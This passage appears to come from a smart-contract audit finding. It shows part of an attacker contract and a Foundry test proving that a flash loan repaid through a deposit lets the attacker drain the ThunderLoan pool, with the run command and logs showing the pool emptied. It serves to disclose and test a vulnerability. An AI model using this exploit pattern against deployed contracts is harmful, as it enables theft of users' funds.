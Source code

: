 ```javascript
      function drainThunderLoan(address _token) external {
         uint256 currentExchangeRate = assetToken.getExchangeRate();
         uint256 assetTokenExchangeRatePrecision = assetToken.EXCHANGE_RATE_PRECISION();
         uint256 ThunderLoanTokenABalance = IERC20(_token).balanceOf(address(assetToken));
         uint256 assetTokenAmountToSend = (assetTokenExchangeRatePrecision * ThunderLoanTokenABalance) / currentExchangeRate;
         thunderLoan.redeem(IERC20(_token), assetTokenAmountToSend);
      }

   }
```

and this is the Test i Wrote:

```javascript
    function testAttackerCanDrainFundsOfTheProtocolByTakingFlashLoanAndDepositingToProtocol() external setAllowedToken hasDeposits {
        AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);
        FlashLoanDrainer flashLoanDrainer = new FlashLoanDrainer(thunderLoan, assetToken);

        uint256 feeToPay = thunderLoan.getCalculatedFee(tokenA, DEPOSIT_AMOUNT);
        tokenA.mint(address(flashLoanDrainer), feeToPay);

        console.log("Attacker Contract inital Balance Should be The Amount that it's Needed to Pay for the Flash Loan Fee, Which is: ", feeToPay);
        console.log("Attacker Contract Balance Before Taking the Flash Loan With Token A: ", tokenA.balanceOf(address(flashLoanDrainer)));
        console.log("ThunderLoan Contract Balance Before Attacker Takes the Flash Loan With Token A:", tokenA.balanceOf(address(assetToken)));

        thunderLoan.flashloan(address(flashLoanDrainer), tokenA, DEPOSIT_AMOUNT, "");
        flashLoanDrainer.drainThunderLoan(address(tokenA));

        console.log("Attacker Contract Balance of Token A After Draining ThunderLoan Contract:", tokenA.balanceOf(address(flashLoanDrainer)));
        console.log("ThunderLoan Contract Balance After Getting Drained:", tokenA.balanceOf(address(assetToken)));

        assert(tokenA.balanceOf(address(flashLoanDrainer)) > tokenA.balanceOf(address(assetToken)));
    }
```

Run the Test with Following Command:

```javascript
       forge test --match-test testAttackerCanDrainFundsOfTheProtocolByTakingFlashLoanAndDepositingToProtocol -vvvv
```

Take a Look at the `Logs`:

```javascript
   Logs: 
      Attacker Contract inital Balance Should be The Amount that it's Needed to Pay for the Flash Loan Fee, Which is:  3000000000000000000
      Attacker Contract Balance Before Taking the Flash Loan With Token A:  3000000000000000000
      ThunderLoan Contract Balance Before Attacker Takes the Flash Loan With Token A: 1000000000000000000000
      Attacker Contract Balance of Token A After Draining ThunderLoan Contract: 1002999999999999999999
      ThunderLoan Contract Balance After Getting Drained: 1
```
